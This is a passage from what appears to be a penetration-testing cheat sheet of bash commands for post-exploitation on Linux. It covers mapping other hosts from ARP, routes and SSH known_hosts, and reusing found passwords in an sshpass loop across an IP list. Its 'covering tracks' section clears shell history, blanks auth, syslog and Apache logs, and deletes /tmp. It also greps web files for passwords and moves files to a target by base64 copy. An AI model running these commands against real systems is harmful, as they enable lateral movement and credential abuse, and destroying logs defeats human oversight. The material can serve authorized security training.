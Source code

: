 #### Find Other Systems in Network
```bash
# ARP cache
arp -a

# Check the routing table
route -n

# Look for SSH known_hosts
cat ~/.ssh/known_hosts
```

#### Password Reuse
```bash
# Try found credentials on other systems
for ip in $(cat /tmp/ip_list.txt); do sshpass -p 'found_password' ssh user@$ip; done
```

### Covering Tracks

#### Clear Command History
```bash
history -c
rm ~/.bash_history
```

#### Clear Logs
```bash
# Common log files
echo > /var/log/auth.log
echo > /var/log/messages
echo > /var/log/syslog
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```

#### Remove Temporary Files
```bash
rm -rf /tmp/*
```

## Helpful One-Liners

```bash
# Find all world-writeable directories
find / -writable -type d 2>/dev/null

# Find all world-executable files
find / -perm -o+x -type f 2>/dev/null

# Find all SUID/SGID files
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

# Analyze file for potential passwords
grep -l -i "pass\|password\|pwd" $(find /var/www -type f -name "*.php" 2>/dev/null)

# Check for files modified in last 10 minutes
find / -mmin -10 -type f -not -path "/proc/*" 2>/dev/null

# Upload files when no upload tools are available
base64 -w 0 file_to_upload.txt | xclip -selection clipboard
# On target: 
echo "base64_string" | base64 -d > file_name
```
